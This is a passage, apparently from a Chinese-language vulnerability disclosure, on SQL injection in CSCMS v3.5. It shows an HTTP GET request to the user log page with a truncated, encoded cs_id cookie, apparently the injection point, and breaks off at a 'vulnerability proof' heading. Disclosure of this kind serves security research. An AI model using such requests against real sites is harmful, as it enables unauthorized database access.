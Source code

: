 替换其他地方就构成注入。

```php
GET /cscms_v3.5_utf8/index.php/user/ulog/index/user HTTP/1.1

Host: **.**.**.**

User-Agent: Mozilla/5.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en

Accept-Encoding: gzip,deflate

Accept-Charset: GB2312,utf-8;q=0.7,*;q=0.7

Keep-Alive: 115

Connection: keep-alive

Referer: http://**.**.**.**/cscms_v3.5_utf8/index.php/user/

Cookie: cs_id=L8kxDzdqKNy9%2F2Qs0g 
```

![](img/22153809fdb8fe85b53514df19d5d85bd0d550bb.jpg)

## 漏洞证明
